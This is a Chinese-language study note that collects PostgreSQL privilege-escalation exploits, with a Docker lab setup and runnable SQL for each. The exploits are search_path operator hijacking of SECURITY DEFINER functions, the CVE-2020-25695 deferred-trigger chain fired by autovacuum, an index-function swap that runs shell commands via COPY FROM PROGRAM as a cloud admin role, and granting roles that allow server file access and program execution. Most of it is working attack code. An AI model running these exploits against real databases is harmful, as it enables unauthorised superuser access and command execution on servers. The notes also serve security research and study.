 # postgresql权限提升总结

## 参考文章：

https://www.cybertec-postgresql.com/en/abusing-security-definer-functions/

https://staaldraad.github.io/post/2020-12-15-cve-2020-25695-postgresql-privesc/

https://www.wiz.io/blog/hells-keychain-supply-chain-attack-in-ibm-cloud-databases-for-postgresql

## docker创建环境

```
docker pull postgres:10.0

docker run --name my_postgres -e POSTGRES_PASSWORD=123456 -d -p 5432:5432 postgres:10.0
```

## 高权限自定义函数问题

创建危险函数

高权限用户运行

```
CREATE FUNCTION public.harmless(integer) RETURNS integer
   LANGUAGE sql SECURITY DEFINER AS
'SELECT $1 + 1';
```

SECURITY DEFINER代表运行函数时会使用创建函数的用户的权限


低权限运行

```
CREATE FUNCTION public.sum(integer, integer) RETURNS integer
   LANGUAGE sql AS
'INSERT INTO public.t1 VALUES (current_user); SELECT $1 OPERATOR(pg_catalog.+) $2';

CREATE OPERATOR public.+ (
   PROCEDURE = public.sum,
   LEFTARG = integer,
   RIGHTARG = integer
);

SET search_path = public,pg_catalog;

SELECT public.harmless(41);
```

search_path的意思是 先去public寻找函数harmless函数

运行harmless时是高权限账号 导致INSERT INTO public.t1 VALUES (current_user);插入的是高权限账号

## 触发器漏洞

整体流程

高权限运行索引-调用sfunc（低权限）-插入t0（低权限）-调用触发器-调用strig-调用snfunc（高权限）

使用

autovacuum_vacuum_threshold、autovacuum_analyze_threshold完成自动化

```
CREATE TABLE t0 (s varchar);

CREATE TABLE blah (a int, b int);
INSERT INTO blah VALUES (1,1); -- 必须要插入数据


CREATE FUNCTION sfunc(integer) 
  RETURNS integer
  LANGUAGE sql IMMUTABLE AS
  'SELECT $1';

CREATE INDEX indy ON blah (sfunc(a));

/*
使用替换的函数绕过IMMUTABLE，IMMUTABLE的意思是同样的参数只运行一次 后面传入参数一样的情况下都不再运行
*/

CREATE OR REPLACE FUNCTION sfunc(integer) RETURNS integer
   LANGUAGE sql 
   SECURITY INVOKER AS
'INSERT INTO public.t0 VALUES (current_user); SELECT $1';


CREATE TABLE t1 (s varchar);

-- create a function for inserting current user into another table

CREATE OR REPLACE FUNCTION snfunc(integer) RETURNS integer
   LANGUAGE sql 
   SECURITY INVOKER AS
'INSERT INTO public.t1 VALUES (current_user); SELECT $1';

-- create a trigger function which will call the second function for inserting current user into table t1
CREATE OR REPLACE FUNCTION strig() RETURNS trigger 
  AS $e$ BEGIN 
    PERFORM snfunc(1000); RETURN NEW; 
  END $e$ 
LANGUAGE plpgsql;

/* create a CONSTRAINT TRIGGER, which is deferred
 deferred causes it to trigger on commit, by which time the user has been switched back to the
 invoking user, rather than the owner
*/
CREATE CONSTRAINT TRIGGER def
    AFTER INSERT ON t0
    INITIALLY DEFERRED 
    FOR EACH ROW
  EXECUTE PROCEDURE strig();

ALTER TABLE blah SET (autovacuum_vacuum_threshold = 1);
ALTER TABLE blah SET (autovacuum_analyze_threshold = 1);
```

### SQL注入 高权限创建的函数

高权限创建的函数

![QQ_1732160674745](https://github.com/user-attachments/assets/8cf643e5-35ed-4f6e-9856-aad0b3d5c054)

低权限执行

![QQ_1732160720976](https://github.com/user-attachments/assets/35974216-ded7-4977-a72d-54795fb5a617)

实际是高权限执行的是

```
INSERT INTO public.test3(data) VALUES(current_user);
```

### postgresql用户组

可以将表的owner给用户组

创建一个索引函数

然后执行刷新 触发索引

身份变为用户组

```
CREATE TABLE temp_table (data text); 
CREATE TABLE shell_commands_results (data text); 
 
INSERT INTO temp_table VALUES ('dummy content'); 
 
/* PostgreSQL does not allow creating a VOLATILE index function, so first we create IMMUTABLE index function */ 
CREATE OR REPLACE FUNCTION public.suid_function(text) RETURNS text 
  LANGUAGE sql IMMUTABLE AS 'select ''nothing'';'; 
 
CREATE INDEX index_malicious ON public.temp_table (suid_function(data));

/*
自己要在cloudsqladmin里面
*/
 
ALTER TABLE temp_table OWNER TO cloudsqladmin;
 
/* Replace the function with VOLATILE index function to bypass the PostgreSQL restriction */ 
CREATE OR REPLACE FUNCTION public.suid_function(text) RETURNS text 
  LANGUAGE sql VOLATILE AS 'COPY public.shell_commands_results (data) FROM PROGRAM ''/usr/bin/id''; select ''test'';'; 
 
ANALYZE public.temp_table; 

```

### grant权限提权

直接创建一个有权限的用户

pg_read_server_files
pg_write_server_files
pg_execute_server_program

```
CREATE USER james CREATEDB IN GROUP 
  pg_read_server_files,
  pg_write_server_files,
  pg_execute_server_program ROLE postgres;
```

